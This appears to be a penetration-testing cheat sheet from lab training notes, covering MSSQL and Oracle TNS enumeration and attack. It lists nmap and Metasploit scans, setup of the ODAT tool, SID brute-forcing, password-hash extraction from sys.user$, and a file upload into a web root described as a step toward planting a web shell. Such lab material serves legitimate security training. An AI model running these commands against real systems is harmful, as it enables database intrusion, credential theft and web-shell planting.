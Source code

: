 select * from users where username = "HTB";



MSSQL – TCP Port 1433
Command	Description
mssqlclient.py <user>@<FQDN/IP> -windows-auth	Log in to the MSSQL server using Windows authentication.

SQL> select name from sys.databases
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248	Nmap MSSQL Script Scan
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 10.129.201.248	Auxiliary scanner in Metasploit called mssql_ping that will scan the MSSQL service and provide helpful information.

msf6 auxiliary(scanner/mssql/mssql_ping) > run

Oracle TNS – TCP Port 1521
Command	Description
Code: bash	Oracle-Tools-setup.sh
#!/bin/bash
 
sudo apt-get install libaio1 python3-dev alien python3-pip -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
sudo submodule update
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
https://docs.oracle.com/cd/E11882_01/server.112/e41085/sqlqraa001.htm#SQLQR985	SQLplus commands that we can use to enumerate the database manually.
./odat.py -h	Testing ODAT. (ODAT) is an open-source penetration testing tool written in Python and designed to enumerate and exploit vulnerabilities in Oracle databases. It can be used to identify and exploit various security flaws in Oracle databases, including SQL injection, remote code execution, and privilege escalation.

./odat.py all -s 10.129.204.235
sudo nmap -p1521 -sV 10.129.204.235 --open	Nmap scan for Oracle
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute	Nmap - SID Bruteforcing
sqlplus user/password@10.129.204.235/XE;	SQLplus - Log In
sqlplus user/pass@10.129.204.235/XE as sysdba	Oracle RDBMS - Database Enumeration. To log in as the System Database Admin (sysdba), giving us higher privileges. 

Oracle RDBMS - Extract Password Hashes:
SQL> select name, password from sys.user$;
SQL> select table_name from all_tables;	Oracle RDBMS - Interaction

select * from user_role_privs; 
select name, password from sys.user$;	Oracle RDBMS - Extract Password Hashes
echo "Oracle File Upload Test" > testing.txt	Oracle RDBMS - File Upload. If this works we can try to upload a web shell to the target. There needs to be a webserver running.
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
curl -X GET http://10.129.204.235/testing.txt
